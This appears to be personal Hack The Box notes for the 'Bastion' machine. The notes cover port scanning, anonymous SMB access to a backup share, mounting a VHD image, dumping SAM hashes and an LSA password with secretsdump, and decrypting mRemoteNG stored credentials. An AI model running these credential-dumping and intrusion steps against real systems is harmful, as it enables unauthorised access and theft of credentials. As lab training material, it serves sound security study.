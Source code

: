 # Bastion

<pre>nmap -p- T5 10.10.10.134

PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown</pre>

<pre>PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)

135/tcp   open  msrpc       Microsoft Windows RPC

139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn

445/tcp   open  microsof0  Windows Server 2016 Standard 14393 microsoft-ds

5985/tcp  open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

47001/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m39s, deviation: 1h09m15s, median: 19s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-05-20T22:10:17+02:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-20T20:10:19
|_  start_date: 2024-05-20T20:07:37</pre>

<pre>smbclient -L 10.10.10.134 -N                 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC</pre>

<pre>smbclient \\\\10.10.10.134\\Admin$  
Password for [WORKGROUP\kali]:
tree connect failed: NT_STATUS_ACCESS_DENIED</pre>

<pre>smbclient \\\\10.10.10.134\\Backups\\
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 16 11:02:11 2019
  ..                                  D        0  Tue Apr 16 11:02:11 2019
  note.txt                           AR      116  Tue Apr 16 11:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 12:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 12:44:02 2019</pre>

- Download WindowsImageBackup

<pre>smb: \>get WindowsImageBackup</pre>

<pre>  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd     An 37761024  Fri Feb 22 12:44:03 2019
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd     An 5418299392  Fri Feb 22 12:45:32 2019
  BackupSpecs.xml                    An     1186  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml     An     1078  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml     An     8930  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml     An     6542  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml     An     2894  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml     An     1488  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml     An     1484  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml     An     3844  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml     An     3988  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml     An     7110  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml     An  2374620  Fri Feb 22 12:45:32 2019</pre>

[Mounting VHD file on Kali Linux through remote share](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

<pre>sudo mount -t cifs -o 'rw,username=guest' //10.10.10.134/Backups backups</pre>

<pre>guestmount -a '/home/kali/HacktheBox/Bastion/backups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' -m /dev/sda1 --ro /home/kali/HacktheBox/Bastion/mountbackup</pre>

![alt text](<../Images/Bastion Mount.png>)

- Browse to the following `\Windows\System32\config\`
- Copy SAM + SYSTEM + SECURITY files

<pre>secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):bureaulampje

[*] DPAPI_SYSTEM 
dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up... </pre>

- SSH into machine with username and password

## Privilege Escalation
- mRemoteNG
- Remote Connection Manager
- Stores credentials
- Changelog.txt shows the version number of mRemoteNG

https://github.com/haseebT/mRemoteNG-Decrypt

 <pre>python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA
 
Password: ********</pre>